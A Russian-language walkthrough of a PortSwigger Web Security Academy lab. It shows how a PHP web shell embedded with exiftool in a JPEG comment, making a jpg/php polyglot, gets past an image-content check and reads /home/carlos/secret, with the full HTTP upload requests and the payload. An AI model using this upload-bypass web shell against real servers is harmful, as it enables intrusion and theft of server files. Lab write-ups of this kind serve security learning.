 ```yaml
---
title: "Remote code execution via polyglot web shell upload"
date: 2025-08-15
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/flawed-validation-of-the-file-s-contents/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload"
classes: wide
---
```


В данной лабе содержится уязвимость **в загрузке файлов**. Для прохождения нужно получить доступ к файлу `/home/carlos/secret` и передать его содержимое в форму проверки.

Для входа в аккаунт можно использовать данные `wiener`:`peter`.

```
https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net/
```

## Solution

Зайду в личный кабинет с помощью кред из условия и получу `POST`-запрос для загрузки картинки.

```http
POST /my-account/avatar HTTP/2
Host: 0abd005c033ff4bd81c1256700e000f1.web-security-academy.net
Cookie: session=8AKifUIC65bNLJC89itvg6GyeRgOxIwM
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundary36fb349a4e4b34c8b48dd4ed32a33058
Content-Length: 107749
Origin: https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary36fb349a4e4b34c8b48dd4ed32a33058
Content-Disposition: form-data; name="avatar"; filename="dog.jpg"
Content-Type: image/jpeg
```

С загрузкой `.jpg` проблем не было, пробую загрузить `.php` файл со следующим содержимым:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Ожидаемо, загрузить файл не получилось. Мне выдало следующую ошибку:

```
Error: file is not a valid image Sorry, there was an error uploading your file.
```

В названии лабы есть спойлер, а именно слово `polyglot`.

Полиглотами называют такие файлы, которые меняют свой тип в зависимости от контекста использования. На сервере идет проверка на то, что загружаемый файл является валидной картинкой.

На сайте `Burp Suite Academy` натолкнулся на тулзу [exiftool](https://exiftool.org/). С ее помощью можно создавать файлы-полиглоты. Для создания полиглота `jpg` + `php` я использовал команду:

```bash
exiftool -Comment="START <?php echo file_get_contents('/home/carlos/secret'); ?> END" ~/Documents/dog.jpg -o polyglot.php
```

Сгенерированный файл я загрузил на сайт.

```http
POST /my-account/avatar HTTP/2
Host: 0abd005c033ff4bd81c1256700e000f1.web-security-academy.net
Cookie: session=8AKifUIC65bNLJC89itvg6GyeRgOxIwM
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary3e99b35f9ca8c9ea119de399560746ff
Content-Length: 107821
Origin: https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary3e99b35f9ca8c9ea119de399560746ff
Content-Disposition: form-data; name="avatar"; filename="polyglot.php"
Content-Type: text/php

ÿØÿà JFIF      ÿþ CSTART <?php echo file_get_contents('/home/carlos/secret'); ?> ENDÿÛ C 		
...
```

Открою страницу с аватаркой.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_polyglot_web_shell_upload/1.png){: height="200" .align-center}

А вот и нужный мне токен — `ls5MhLfcM6OtELdaGSMSjRCZ55KciAjF`. Сдам его для прохождения лабы.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_polyglot_web_shell_upload/2.png){: height="200" .align-center}

Успех)
